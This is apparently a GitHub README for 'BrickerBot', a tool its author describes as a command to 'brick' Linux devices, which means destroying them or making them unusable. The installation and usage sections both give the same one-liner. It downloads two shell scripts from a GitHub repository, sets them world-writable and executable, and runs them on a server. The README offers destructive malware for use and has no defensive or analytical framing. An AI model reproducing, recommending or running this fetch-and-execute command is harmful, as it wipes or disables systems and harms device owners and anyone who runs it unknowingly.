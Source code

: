 BrickerBot
=====

Command for brick linux devices

## Installation

    $ wget https://raw.githubusercontent.com/br0leak/BrickerBot/main/char_for_brick.bash; wget https://raw.githubusercontent.com/br0leak/BrickerBot/main/bricker.sh; chmod 777 bricker.sh; chmod +x bricker.sh; chmod 777 char_for_brick.bash; chmod +x char_for_brick.bash; bash char_for_brick.bash || bash bricker.sh

## How to use

It's simple to use. You just need to download and execute they scripts on the server.

### Example:
    $ wget https://raw.githubusercontent.com/br0leak/BrickerBot/main/char_for_brick.bash; wget https://raw.githubusercontent.com/br0leak/BrickerBot/main/bricker.sh; chmod 777 bricker.sh; chmod +x bricker.sh; chmod 777 char_for_brick.bash; chmod +x char_for_brick.bash; bash char_for_brick.bash || bash bricker.sh
    

## License 

> Copyright (C) 2021 - 2022 
> Nassim Saqqaf (nassim.saqqaf@protonmail.com)
